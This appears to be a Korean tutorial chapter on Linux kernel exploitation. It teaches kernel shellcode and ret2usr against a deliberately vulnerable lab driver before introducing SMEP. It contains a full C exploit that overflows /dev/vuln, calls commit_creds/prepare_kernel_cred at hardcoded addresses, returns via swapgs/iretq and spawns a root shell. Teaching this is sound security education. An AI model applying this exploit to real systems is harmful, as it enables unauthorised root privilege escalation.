

# 3-1. 커널의 무한한 권한이 낳은 재앙: 커널 셸코드와 ret2usr

우리는 앞 장에서 "사용자 영역과 커널 영역은 엄격하게 분리되어 있으며, 사용자는 커널 메모리에 함부로 접근할 수 없다"고 배웠습니다. 

그렇다면 반대로, **최고 권한을 가진 커널은 시스템의 모든 메모리 주소(사용자 영역 포함)에 자유롭게 접근하고 코드를 실행할 수 있을까요?**

**네, 그렇습니다!** 운영체제 커널은 시스템 전체를 통제하는 신(God)과 같습니다. CPU는 한 번에 수백~수천 개의 유저 프로세스를 다뤄야 하므로, 커널은 성능을 위해 여러 응용 프로그램의 메모리를 자유롭게 넘나들며 막힘없이 작업을 처리하도록 설계되었습니다. 참 강력하고 편리하죠?

**...라고 생각하셨습니까?**

관점을 조금만 바꿔서, 해커의 시선으로 질문을 던져보겠습니다. **만약 커널이 임의의 사용자 영역(User Space)에 있는 코드를 아무런 의심 없이 실행해 버린다면 어떻게 될까요?**

백문이 불여일견입니다. 실습 자료 폴더(`src/sample`) 안에 있는 `krop.zip` 파일을 다운로드하여 압축을 풀어주세요. 이번 실험 환경의 `vuln.ko` 역시 이전 장과 완전히 똑같은 버퍼 오버플로 취약점을 가지고 있습니다.

실습 환경 안을 보면 `kshellcode` 라는 바이너리가 보이시나요? 해당 바이너리는 아래의 익스플로잇 C 코드를 컴파일하여 제작되었습니다. 코드를 천천히 읽어보시고, 제가 어떤 미친 짓을 의도했는지 상상해 보십시오.

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#define NUM 88

/* 커널이 사용하는 권한 상승 함수의 원형(형태)을 흉내 내어 정의합니다. */
typedef void* (*prepare_kernel_cred_t)(void *task);
typedef int (*commit_creds_t)(void *cred);

unsigned long fake_stack[2048] = {0}; // 복귀 시 사용할 넉넉한 가짜 스택

// 하드코딩된 커널 내부 함수와 init_task의 실제 주소 (KASLR이 꺼져있어 고정값)
unsigned long prepare_kernel_cred_addr = 0xffffffff812ca190;
unsigned long commit_creds_addr = 0xffffffff812c9ee0;
unsigned long init_task_addr = 0xffffffff82c0ca00;

/* 권한을 상승시킨 후에는 이 영역으로 돌아와서 셸을 획득합니다. */
void win_shell(void) {
    printf("[*] YES!!!!! I GOT A ROOT SHELL!!!!!\n");
    execl("/bin/sh", "sh", NULL);
}

/* 사용자 영역(User Space)에 작성한 해킹 코드입니다! */
void hackcode(void) {
    /* 커널 함수 주소들을 함수 포인터로 맵핑하여 직접 호출합니다. */
    prepare_kernel_cred_t prepare_kernel_cred = (prepare_kernel_cred_t)prepare_kernel_cred_addr;
    commit_creds_t commit_creds = (commit_creds_t)commit_creds_addr;
    void *init_task = (void *)init_task_addr;
    
    // 커널의 권한으로 root 신분증을 만들어 현재 프로세스에 적용!
    commit_creds(prepare_kernel_cred(init_task));

    /* 권한 상승이 끝났으므로 무사귀환을 위한 트랩 프레임을 설정하고 사용자 영역으로 탈출합니다. */
    unsigned long rsp = (unsigned long)(fake_stack+2048);
    unsigned long rip = (unsigned long)win_shell;

    /* 어셈블리어를 직접 코드 영역에 삽입합니다. */
    __asm__ __volatile__( // 먼저 push 명령어로 스택에 트랩 프레임 값들을 넣습니다.
        "push $0x2b\n\t" // SS
        "push %0\n\t" // RSP
        "push $0x202\n\t" // RFLAGS
        "push $0x33\n\t" // CS
        "push %1\n\t" // RIP
        "swapgs\n\t" // 사용자 스택으로 교체
        "iretq\n\t" // 사용자 영역으로 복귀
        :
        : "r"(rsp),"r"(rip) // %0은 rsp, %1은 rip 변수로 치환됩니다.
        : "memory"
    );
}

int main() {
    
    int fd = open("/dev/vuln", O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open /dev/vuln");
        return -1;
    }

    char payload[200] = { 0 };
    memset(payload, 'A', NUM);

    /* 취약한 커널 함수의 반환 주소를 유저 영역의 hackcode() 함수로 덮어버립니다! */
    unsigned long target = (unsigned long)hackcode;
    printf("Hackcode address : 0x%lx\n",target);
    memcpy(payload + NUM, &target, 8);
    
    printf("[+] Sending exploit payload...\n");

    write(fd, payload, NUM + 8);

    close(fd);
    return 0;
}
```

코드의 흐름이 보이시나요? 이번에는 복잡하게 커널 내부의 `swapgs` 가젯을 찾아서 KROP 체인을 만들지 않았습니다.

대신, **사용자 영역에 `hackcode()`라는 C 함수를 떡하니 만들어두고, 커널에서 `dev_write`의 반환 주소를 이 함수의 시작 주소로 덮어버렸습니다!**

`hackcode()` 안에는 커널 권한으로 실행될 root 권한 탈취 로직과, 무사 귀환을 위한 `swapgs`, `iretq` 인라인 어셈블리까지 전부 설치되어 있습니다. 이처럼 커널이 직접 실행하도록 유저 영역에 올려둔 코드를 <b>커널 셸코드(Kernel Shellcode)</b>라고 부르며, 커널의 실행 흐름을 사용자 영역으로 옮기는 이 공격 기법을 <b>ret2usr(Return-to-User)</b>라고 부릅니다.

자, 이제 실습 환경에서 `kshellcode`를 실행해 보십시오. 이런 말도 안 되는 미친 짓이 과연 성공할까요?



<strong>`[*] YES!!!!! I GOT A ROOT SHELL!!!!!`</strong>

이럴 수가! 커널이 유저 영역에 놓인 `hackcode()`를 아무런 의심 없이 자신의 최고 권한(Ring 0)으로 넙죽 실행해 버렸고, 그 결과 우리는 root 셸을 획득했습니다!

**해커 입장에서 이것은 축복입니다.** 복잡하게 가젯을 찾을 필요 없이, 그냥 C언어로 공격 코드를 짜서 실행 흐름만 옮기면 되니까요. **하지만 시스템 보안의 관점에서 이것은 상상조차 하기 싫은 끔찍한 재앙입니다.**

현대의 리눅스와 CPU 제조사들은 이런 공격을 절대로 허용하지 않습니다. 이 공격을 CPU 하드웨어 수준에서 차단하는 첫 번째 보호 기법인 SMEP을 소개합니다.